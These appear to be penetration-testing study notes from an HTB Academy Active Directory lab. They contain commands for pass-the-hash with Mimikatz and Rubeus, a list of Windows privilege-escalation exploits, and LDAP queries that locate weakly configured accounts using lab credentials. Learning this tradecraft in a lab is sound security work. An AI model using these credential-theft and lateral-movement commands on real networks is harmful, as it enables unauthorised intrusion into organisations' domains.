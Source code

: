 xfreerdp /v:<target IP address> /u:htb-student /p:<password> /cert-ignore

Any necessary tools can be found in the c:\tools directory after logging in to the target host.


Changing Domain User Context:

- **CMD - Runas User**
```
runas /netonly /user:htb.local\jackie.may powershell
```

- **CMD - Rubeus.exe Cleartext Credentials**
```
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94
```

- **CMD - Mimikatz.exe Cleartext Credentials**
```
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94
```

The SYSTEM account on a domain-joined host can enumerate Active Directory **by impersonating the computer account**, which is essentially a special user account. If you land on a domain-joined host with **`SYSTEM`** privileges during an assessment and cannot find any useful credentials in memory or other data on the machine, there are still many things you can do. Having SYSTEM-level access within a domain environment is nearly equivalent to having a domain user account. The only real limitation is not being able to perform cross-trust Kerberos attacks such as Kerberoasting.

- Remote Windows exploits such as EternalBlue or BlueKeep.
- Abusing a service running in the context of the SYSTEM account.
- Abusing SeImpersonate privileges using RottenPotatoNG against older Windows systems, Juicy Potato, or PrintSpoofer if targeting Windows 10/Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0day.
- PsExec with the -s flag


- Reference: https://github.com/breenmachine/RottenPotatoNG
- Reference: https://github.com/ohpe/juicy-potato
- Reference: https://github.com/itm4n/PrintSpoofer
- Reference: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- Reference: https://blog.0patch.com/2019/06/another-task-scheduler-0day-another.html


By gaining SYSTEM-level access on a domain-joined host, we will be able to:
- Enumerate the domain and gather data such as information about domain users and groups, local administrator access, domain trusts, ACLs, user and computer properties, etc., using BloodHound, and PowerView/SharpView.
- Perform Kerberoasting / ASREPRoasting attacks.
- Run tools such as Inveigh to gather Net-NTLM-v2 hashes or perform relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

https://github.com/Kevin-Robertson/Inveigh

Find user DONT_EXPIRE_PASSWORD:
```
ldapsearch-ad.py -l 10.129.98.106 -d inlanefreight -u james.cross -p Academy_Student! -t show-user -s "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=262144))"
```

Find user `ENCRYPTED_TEXT_PWD_ALLOWED`
```
ldapsearch-ad.py -l 10.129.98.106 -d inlanefreight -u james.cross -p Academy_Student! -t show-user -s "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=128))"
```


PowerShell `PASSWD_NOTREQD`:
```
Get-ADUser -Filter {userAccountControl -band 32} -Properties userAccountControl | Select-Object Name, SamAccountName, userAccountControl
```

`whoami /priv` PowerView alternative:
```
(Get-DomainPolicy).PrivilegeRights
```
